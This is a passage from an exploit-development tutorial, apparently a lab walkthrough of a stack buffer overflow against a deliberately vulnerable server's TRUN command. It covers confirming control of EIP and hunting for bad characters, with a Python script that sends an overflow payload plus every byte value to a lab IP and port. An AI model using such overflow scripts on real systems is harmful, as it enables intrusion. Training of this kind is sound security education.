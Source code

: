 
### Outcome
In your debugger, you should see the EIP overwritten with `0x42424242`.

---

## Step 5. Finding Bad Characters

### Objective
Identify any bytes that the vulnerable application “mangles” or filters out. These are “bad characters” you must avoid in your shellcode.

### Process
1. Create a payload that appends every possible byte (except typically `\x00`) after your EIP overwrite.
2. Send the payload and use the debugger to dump the memory.
3. Compare the expected byte sequence with what appears in memory. Any discrepancies indicate bad characters.

### Example Python Script (`4.py`)

```python
#!/usr/bin/python
import sys, socket

badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

payload = "A" * 2003 + "B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.90', 9999))
    s.send(('TRUN /.:/' + payload))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```
